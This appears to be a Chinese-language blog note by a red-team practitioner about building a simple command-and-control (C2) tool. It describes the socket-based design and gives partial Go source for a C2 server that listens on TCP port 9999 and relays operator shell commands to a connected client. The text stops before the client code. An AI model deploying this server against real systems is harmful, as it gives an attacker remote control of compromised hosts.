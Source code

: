 最近没啥时间搞研究了，5、6、7月份攻防排期直接爆表，先更新一下笔记，攻防太多了，c2 socket连接bug没修复、还没办法挂载后台执行监听、传输加密还没实现...
<a name="mhSh0"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1651319820257-bc284342-2395-49e4-901a-a7a4d4fbd3bf.png#averageHue=%23f5f5f5&clientId=ueabac566-0077-4&from=paste&height=272&id=u55a072e9&originHeight=340&originWidth=582&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26000&status=done&style=none&taskId=u56cd90d9-7230-4383-b05a-30367241843&title=&width=465.6)
<a name="AG3Mq"></a>
## C2
其实很简单，就是通过socket连接，socket连接的时候，服务端给客户端下命令，客户端接收到的命令执行完后带回去tcp通信给服务端。<br />服务端
```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
)

func main() {
	listen, err := net.Listen("tcp", "0.0.0.0:9999")  //开启监听
	fmt.Println("listenning...")
	if err != nil {
		fmt.Println("listent failed, err:", err)
		return
	}
	for {
		conn, err := listen.Accept() // 建立链接
		if err != nil {
			fmt.Println("accept failed, err:", err) // 三次握手失败
			continue
		}
		go process(conn) // 启动多个goroutine来处理回复
	}
}

// 处理请求
func process(conn net.Conn) {
	defer conn.Close() // 关闭链接通道
	for {
		//var inputMsg string
		//fmt.Print("windows-shell->:")
		//fmt.Scanln(&inputMsg)
		//inputMsg = strings.Trim(inputMsg, "\r\n") // 去除空行等，防止阻塞
		//conn.Write([]byte(inputMsg))
		reader := bufio.NewReader(os.Stdin)
		fmt.Print("Shell>")
		command, _ := reader.ReadString('\n')
		if _,err := conn.Write([]byte(command)); err != nil{
			fmt.Printf("write to client failed, err: %v\n", err)
			break
		}

		reader = bufio.NewReader(conn)
		var buf [1024]byte
		n, err := reader.Read(buf[:]) // 读取数据 读取的字节数，错误信息
		if err != nil {
			fmt.Print("read form client failed, err:", err)
			break
```